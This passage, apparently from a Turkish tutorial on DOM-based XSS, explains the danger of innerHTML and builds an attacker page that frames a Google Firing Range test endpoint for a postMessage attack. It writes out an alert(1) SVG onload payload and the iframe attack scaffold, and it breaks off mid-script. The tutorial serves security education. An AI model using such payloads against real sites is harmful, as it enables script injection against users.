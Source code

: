 innerHTML in neden tehlikeli olduğunu da inceleyelim;

Yukarıdaki yapıyı simüle ettiğimizde aşağıdaki gibi bir yapıda kolaylıkla XSS açığının oluşabileceğini tespit edebiliriz. Bu kısımda innerHTML ile div içerisine yerleştirilen input’u kendimiz yönetebildiğimiz için XSS’e de davetiye çıkmış olur.

```
<html>
  <script>
      var div = document.createElement("div");
      div.innerHTML = "<svg onload=alert(1)>";
      document.documentElement.appendChild(div);
  </script>
  <body>
    <div id="test"></div>
  </body>
</html>
```

Bu kodu bir HTML dosyası olarak kaydedip tarayıcımızda çalıştırınca XSS’in meydana geldiğini görebiliriz. Dolayısıyla innerHTML böyle kullanılınca pek de güvenli değildir.

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%203.png)

Şimdi de iframe ile bu sayfayı açalım. Oluşturduğumuz html sayfasını ***hacker.com*** olarak düşünelim. Yani burası hacker’a ait olan sayfadır. Ancak bu sayfayı ziyaret ettiğinizde aslında burada açılan iframe sizi XSS açığı bulunan asıl hedef siteye götürecektir. Örneğin burası facebook olabilir.

```
<html>
  <body>
    <iframe
      src="https://public-firing-range.appspot.com
       /dom/toxicdom/postMessage/innerHtml">

    </iframe>
  </body>
</html>
```

Ancak buradaki iframe’i bu şekilde açmak yerine daha dinamik bir şekilde oluşturabiliriz. Buradaki kod yapısında yorum satırları ile birlikte ne yaptığımızı daha net anlayabilirsiniz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        //özetle iframe ile istediğimiz sayfayı açtırıp
        //iframe yüklenmesi bittikten sonra
        //bu frame içerisine bir postMessage göndermekteyiz.
        //Bu mesajı da 'selam' olarak belirledik bu kodlar ile.
        //target ile bu id alınır.
        var target = document.getElementById('target');
```